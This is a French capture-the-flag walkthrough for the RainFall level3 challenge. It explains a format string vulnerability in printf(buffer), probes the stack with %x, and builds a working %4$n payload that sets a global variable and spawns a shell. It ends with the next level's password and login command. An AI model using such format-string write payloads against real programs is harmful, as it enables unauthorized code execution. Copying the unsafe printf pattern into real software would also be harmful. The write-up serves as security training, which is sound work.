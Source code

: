 # level3: Exploitation d'une Vulnérabilité de Format de Chaîne

## Aperçu du Challenge

Dans ce challenge, nous devons exploiter un binaire pour accéder au mot de passe du niveau suivant. Le binaire contient une fonction `v()` qui lit l'entrée de l'utilisateur, l'affiche, puis vérifie si une variable globale `m` est égale à `0x40`. Si la condition est remplie, le programme exécute une commande shell pour donner accès au niveau suivant.

## Analyse du Code Source

Le code source du binaire est le suivant:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

uint32_t m = 0x00000000; // Variable globale stockée à l'adresse 0x804988c

void v(void) {
    char buffer[520];

    // Lire l'entrée depuis stdin
    fgets(buffer, sizeof(buffer), stdin);

    // Afficher l'entrée sur stdout
    // printf("%s", buffer); Code initial de Ghidra, le code initial n'utilisait en fait pas de spécificateurs de type
    printf(buffer);

    // Vérifier si la condition est remplie
    if (m == 0x40) {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main(void) {
    v();
    return 0;
}
```

Initialement, lors de l'analyse du binaire dans Ghidra, le décompilateur a montré la ligne `printf("%s", buffer);`. C'est une façon sécurisée d'utiliser `printf` car elle spécifie explicitement la chaîne de format. Cependant, en testant le binaire avec l'entrée `%x %x %x`, nous avons obtenu la sortie suivante:

```
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```

Cette sortie indique que le binaire utilise en réalité `printf(buffer);`, ce qui le rend vulnérable à une attaque de chaîne de format. Ghidra avait supposé la version sécurisée du code, mais le binaire réel n'inclut pas le spécificateur de format.

## Vulnérabilité

La vulnérabilité réside dans l'utilisation de `printf(buffer);`. Lorsque `printf` est appelé sans spécificateur de format, il interprète le contenu de `buffer` comme une chaîne de format. Cela permet à un attaquant de:

1. Lire des adresses mémoire arbitraires en utilisant `%x` ou `%s`.
2. Écrire à des adresses mémoire arbitraires en utilisant `%n`.

## Exploitation

Pour exploiter cette vulnérabilité, nous devons:

1. Écrire la valeur `0x40` (64 en décimal) dans la variable globale `m`, située à l'adresse `0x804988c`.
2. Utiliser le spécificateur de format `%n` pour y parvenir.

### Qu'est-ce que `%n`?

Le spécificateur de format `%n` dans `printf` écrit le nombre de caractères imprimés jusqu'à présent à l'adresse mémoire fournie comme argument. Par exemple:

```c
int x = 0;
printf("Hello, world!%n", &x);
```

Après l'exécution de ce code, `x` contiendra la valeur `13` car 13 caractères ont été imprimés avant que `%n` ne soit traité.

### Qu'est-ce que `%c`?

Le spécificateur de format `%c` imprime un seul caractère. Il est utile pour contrôler le nombre de caractères imprimés, car chaque `%c` ajoute exactement un caractère à la sortie.

### Comment `printf` Trouve-t-il des Arguments Quand Aucun n'est Fourni?

Lorsque `printf` est appelé, il cherche des arguments sur la pile. Si aucun argument n'est explicitement fourni, `printf` tentera néanmoins de les récupérer sur la pile, interprétant les valeurs qu'il y trouve comme des arguments. Ce comportement est ce qui rend possibles les vulnérabilités de chaîne de format. Par exemple:

```c
level3@RainFall:~$ ./level3
%x %x %x
200 b7fd1ac0 b7ff37d0
```

Dans ce cas, `printf` affichera les valeurs des trois premières entrées de la pile qu'il rencontre, bien qu'aucun argument n'ait été passé.

### Déterminer la Position Correcte du Paramètre

Pour exploiter la vulnérabilité de chaîne de format, nous devions déterminer quelle position de paramètre sur la pile correspond à l'adresse de la variable globale `m` (0x804988c). C'est crucial pour utiliser le spécificateur de format `%n` afin d'écrire à l'emplacement mémoire correct.

#### Test de la Disposition de la Pile

Nous avons utilisé le code d'exploitation suivant pour afficher plusieurs valeurs de la pile:

```bash
(python -c 'print "\x8c\x98\x04\x08" + " %x %x %x %x %x %x %x %x"') | ./level3
```

Ce code d'exploitation:

1. Place l'adresse de `m` (`0x804988c`, `\x8c\x98\x04\x08` en petit-boutien) au début de l'entrée. Consultez le walkthrough du niveau 1 pour plus de détails sur le format petit-boutien.
2. Inclut plusieurs spécificateurs de format `%x` pour afficher les valeurs de la pile.

#### Analyse de la Sortie

La sortie du test était:

```
� 200 b7fd1ac0 b7ff37d0 804988c 20782520 25207825 78252078 20782520
```

En décomposant:

- `200`: Première valeur de la pile.
- `b7fd1ac0`: Deuxième valeur de la pile.
- `b7ff37d0`: Troisième valeur de la pile.
- `804988c`: **Quatrième valeur de la pile** (l'adresse de `m`).

Cela a confirmé que l'adresse de `m` est à la 4ème position de paramètre sur la pile.

#### Code d'exploitation Final

Avec cette information, nous avons mis à jour notre code d'exploitation pour utiliser `%4$n` afin d'écrire à l'adresse de `m`:

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
```

Ce code d'exploitation:

1. Place l'adresse de `m` au début de l'entrée. Cela est nécessaire pour que l'adresse soit disponible comme 4ème paramètre dans la fonction `printf`.
2. Imprime 60 caractères pour porter le nombre total de caractères à 64.
3. Utilise `%4$n` pour écrire le nombre de caractères (64) à l'adresse de `m`.

#### Vérification de l'Exploit

L'exécution du code d'exploitation mis à jour a produit la sortie suivante:

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
�
Wait what?!
```

Cela a confirmé que la valeur `0x40` (64 en décimal) a été écrite avec succès dans `m`, déclenchant la condition pour exécuter la commande shell.

### Livraison de l'Exploit

Nous pouvons livrer le code d'exploitation en utilisant Python:

```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
```

Cette commande:

- Génère le code d'exploitation.
- La transmet au binaire.
- Utilise `cat` pour maintenir stdin ouvert pour l'interaction avec le shell. Consultez le walkthrough du niveau 1 pour plus de détails.

### Vérification de l'Exploit

L'exécution de l'exploit produit la sortie suivante:

```
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"'; cat) | ./level3
�
Wait what?!
```

Cela confirme que la valeur `0x40` a été écrite avec succès dans `m`, déclenchant la condition pour exécuter la commande shell.

## Obtention du Mot de Passe

Après avoir obtenu l'accès au shell, nous pouvons récupérer le mot de passe du niveau suivant:

```bash
cat /home/user/level4/.pass
```

Le mot de passe est:

```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Passage au Niveau Suivant

Utilisez le mot de passe pour vous connecter en tant que `level4`:

```bash
ssh level4@192.168.1.13 -p 4242
```
